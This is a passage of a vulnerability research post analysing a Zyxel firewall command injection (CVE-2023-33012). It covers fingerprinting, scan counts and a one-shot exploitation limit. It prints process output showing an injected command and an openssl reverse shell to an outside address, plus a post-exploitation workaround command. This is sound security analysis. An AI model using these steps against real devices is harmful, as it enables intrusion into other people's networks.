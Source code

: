 cloud management mode enabled?”\* It turns out that is easy to determine as well. \`/ztp/cgi-bin/parse\_config.py\` expects the caller to send base64 encoded content in the config parameter. If the script receives invalid base64 encoded data, then it will respond to the client with the error code \`ParseError: 0xC0DE0004\`. See the code below:\\n\\n\`\`\`python\\nif not os.path.exists(ztpinclude.SERVER\_SOCK\_FILE):\\n logging.error("Cannot find sdwan\_interface socket \[%s\]!" % ztpinclude.SERVER\_SOCK\_FILE)\\n print("ParseError: 0xC0DE0005")\\nelse:\\n conf\_str = urllib.unquote(conf\_str) \\n try:\\n decoded\_config = base64.b64decode(conf\_str)\\n except:\\n logging.error("invalid base64 str %s" % conf\_str)\\n print("ParseError: 0xC0DE0004")\\n return\\n\`\`\`\\n\\nIn that way, we were able to scan the internet-facing Zyxel devices to determine how many used the vulnerable configuration. Of the ~7,600 that were using vulnerable firmware, we found only 607 that were using the vulnerable configuration.\\n\\n> Configuration of Zyxel Firewalls Using Firmware Affected By CVE-2023-33012\\n\\n::pie-chart\\n---\\nlabels:\\n - SD-WAN Disabled (Not Vulnerable)\\n - SD-WAN Enabled\\nvalues:\\n - 6990\\n - 607\\n---\\n::\\n\\nFrom the initial analysis, we went all the way from “Zyxel firewalls are affected by an unauthenticated remote command injection” to “Zyxel firewalls using an uncommon configuration are affected by unauthenticated remote command injection.” Which is a pretty important asterisk that got left out.\\n\\nBut that’s not the only caveat. There’s more.\\n\\n## You Get One Shot\\n\\nThe exploitation described by SSD is clever and fun to play with. The attacker can write arbitrary data to a file of their choosing using the \`option proto vti\` configuration (which Zyxel did not appear to fix in the 5.37.0 release). The attacker can then execute the file using a command injection in the \`option proto gre\` configuration. The command injection is space-limited to the point that executing a pre-upload file is the only option, so these two things work really well together.\\n\\nThe problem is that you can only do it once.\\n\\nLooking at (edited) \`ps faux\` after exploitation, we see the following:\\n\\n\`\`\`sh\\nroot 14602 S 07:14 0:00 sh -c ip addr add ; . /tmp/fYW.qsr; #/24 brd + dev gre1\\nroot 14606 S 07:14 0:00 \\\_ sh -i\\nroot 14649 R 07:14 0:00 | \\\_ ps faux\\nroot 14607 S 07:14 0:00 \\\_ openssl s\_client -quiet -connect 10.12.70.252:1271\\n\`\`\`\\n\\nThe injection occurs during an attempted \`ip addr /24 brd + dev gre1\` command. The offending code from \`/usr/sbin/sdwan\_interface\` is easy to visualize in a decompiler. The order of operations turns out to be very important, but below, you can see the software brings up the GRE interface, sets the multicast transmit queue size, and auto-configures the broadcast address (where exploitation finally occurs):\\n\\n!\[Decompiled output from sdwan\_interface\](/blog/zyxel-cve-2023-33012/decompiled-CVE-2023-33012.png){:width="100%"}\\n\\nUpon failure of the final command, the following is logged to \`/tmp/sdwan\_interface/sdwan\_interface.log\`:\\n\\n\`\`\`\\n\[Fri Feb 16 19:58:49 2024\] \[zld\_interface\_server:806\] name=xBwHq, reset\_interface=1\\n\[Fri Feb 16 19:58:50 2024\] \[add\_gre\_tunnel:435\] add\_gre\_tunnel \[ERROR\]: cmd error\[32512\]: ip addr add ; . /tmp/MGb.qsr; #/24 brd + dev gre1\\n\[Fri Feb 16 19:58:50 2024\] \[apply\_zone\_to\_kernel:22\] apply zone to kernel = 1, 21, gre1\\n\`\`\`\\n\\nThe logging and decompilation screenshots are important because they provide evidence of why this vulnerability \*can only be exploited once\*. A subsequent exploit attempt generates the following log:\\n\\n\`\`\`\\n\[Fri Feb 16 20:10:59 2024\] \[zld\_interface\_server:806\] name=XsDfb, reset\_interface=1\\n\[Fri Feb 16 20:10:59 2024\] \[add\_gre\_tunnel:420\] add\_gre\_tunnel \[ERROR\]: cmd error\[65280\]: ifconfig gre2 up\\n\[Fri Feb 16 20:10:59 2024\] \[apply\_zone\_to\_kernel:22\] apply zone to kernel = 1, 21, gre2\\n\`\`\`\\n\\nHere we see that the firewall has attempted operations on a new GRE interface (\`gre2\`), but the command \`ifconfig gre2 up\` fails. The interface doesn’t exist. When \`ifconfig gre2 up\` fails, \`ip addr add\` is never executed. The first successful exploitation leaves the firewall in a state where it cannot be exploited again! This important caveat was certainly never mentioned.\\n\\nAn attacker who knows what they are doing \*can\* work around this limitation. If the attacker removes the old GRE interface, the software will bring up a new one. Our post-exploitation script has something like:\\n\\n\`\`\`sh\\nifconfig gre1 down; ip tunnel del gre1 mode gre;\\n\`\`\`\\n\\nThe next time the target is exploited, it will successfully create \`gre2\`, which allows \`ifconfig gre2 up\` to run successfully and open up access to the vulnerable command.\\n\\n## Exploitation in the Wild\\n\\nThe SSD writeup \[gained\](https://www.reddit.com/r/netsec/comments/19f9q8c/new\_zyxel\_rce\_vulnerability\_allows\_remote/) \[some\](https://twitter.com/ptracesecurity/status/1751289074537619646) attention, so we were interested if anyone attempted to exploit this in the wild. For whatever reason, the firewalls make the ZTP log available to remote and unauthenticated users through the \`/ztp/cgi-bin/dumpztplog.py\` endpoint. In that log file, an exploitation attempt will look something like